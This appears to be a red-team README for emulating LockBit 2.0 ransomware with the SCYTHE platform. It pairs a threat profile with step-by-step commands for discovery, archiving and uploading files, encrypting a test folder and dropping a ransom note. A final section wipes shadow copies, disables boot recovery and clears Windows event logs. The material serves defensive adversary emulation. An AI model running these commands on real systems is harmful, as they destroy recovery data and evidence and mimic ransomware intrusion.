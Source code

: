 # LockBit

## Executive Summary


## Cyber Threat Intelligence

### Profile
LockBit 2.0 operates as an affiliate-based Ransomware-as-a-Service (RaaS) and employs a wide variety of tactics, techniques, and procedures (TTPs), creating significant challenges for defense and mitigation. LockBit 2.0 ransomware compromises victim networks through a variety of techniques, including, but not limited to, purchased access, unpatched vulnerabilities, insider access, and zero day exploits. [^1]

Upon execution, Lockbit 2.0 determines the system and user language settings and only targets those not matching a set list of languages that are Eastern European. If an Eastern European language is detected, the program exits without infection. As infection begins, Lockbit 2.0 deletes log files and shadow copies residing on disk. Lockbit 2.0 enumerates system information to include hostname, host configuration, domain information, local drive configuration, remote shares, and mounted external storage devices.Lockbit 2.0 attempts to encrypt any data saved to any local or remote device but skips files associated with core system functions.

### Aliases
* LockBit Red

### Targets
* The United States is heavily targeted although organizations in much of Western Europe, China, India, Indonesia, and Ukraine have seen attacks as well.
* BlackBerry research indicates that the average ransom paid by its victims is $85,000 which is suggestive of LockBit targeting small to medium sized organizations.
* Primarily Windows systems

### Objectives

## Automated Emulation
*** Note this threat is impactful if running with high privilege ***
1. Download and import the threat in JSON format to your SCYTHE instance
2. Download the Virtual File System (VFS) files under LockBit/VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/threats/LockBit
4. Create a new campaign with HTTPS.
5. Import from Existing Threat: LockBit
6. Launch the Campaign

## Manual Emulation

Launch a campaign with the C2 parameters you wish to use. 

Once you have a shell, execute the following procedures:
```
loader --load run
```
Determine the language of the target operating system:
```
run reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Nls\Language
```
LockBit does not execute on systems set with Eastern European languages. The return of the reg query should not match
```
2092 1068 1067 1059 1079 1087 1088 2073 1049 1064 1090 2115 1091
```
Perform discovery procedures:
```
run whoami
loader --load printscr
printscr --window Desktop
loader --load sysinfo
sysinfo
loader --load processes
processes
run cmd /c dir %USERPROFILE%\Documents
run net use
```
Prepare the system for impact TTPs:
```
run cmd /c mkdir "%USERPROFILE%\Desktop\LockBit"
loader --load file
file --create --path "%USERPROFILE%\Desktop\LockBit\target_files.xls" --size 5MB --count 10 --random
```
Exfiltrate:
```
loader --load upsh
upsh --cmd "Compress-Archive -Path $env:userprofile\Desktop\LockBit -CompressionLevel Optimal -Destination $env:userprofile\Desktop\LockBit\exfil.zip"
loader --load uploader
uploader --remotepath "%USERPROFILE%\Desktop\LockBit\exfil.zip"
```
Encrypt the files:
```
file --create --path "%USERPROFILE%\Desktop\LockBit_Ransomware.hta" --size 1MB --random
loader --load crypt
crypt --target "%USERPROFILE%\Desktop\LockBit\" --encrypt --password "LockBit" --erase --extension lockbit
```
Download the ransom note and open it:
```
loader --load downloader
downloader --src "VFS:/shared/threats/LockBit/Restore-My-Files.txt" --dest "%USERPROFILE%\Desktop\LockBit\Restore-My-Files.txt"
run powershell notepad "%USERPROFILE%\Desktop\LockBit\Restore-My-Files.txt"
```
Clean up:
```
run cmd /c rmdir /Q /S ""%USERPROFILE%\Desktop\LockBit""
run cmd.exe /c del "%USERPROFILE%\Desktop\LockBit_Ransomware.hta"
```
If running with high privilege and want to run the risky TTPs:
```
controller --integrity
run vssadmin Delete Shadows /All /Quiet
run bcdedit /set {default} recoveryenabled No
run bcdedit /set {default} bootstatuspolicy ignoreallfailures
run wmic SHADOWCOPY /nointeractive
run wevtutil cl security
run wevtutil cl system
run wevtutil cl application
run vssadmin delete shadows /all /quiet & wmic shadowcopy delete & bcdedit /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no
```
Shutdown the payload
```
controller --shutdown
```

## References
- [FBI Flash](https://www.ic3.gov/Media/News/2022/220204.pdf)
[^1]: [FBI Flash](https://www.ic3.gov/Media/News/2022/220204.pdf)
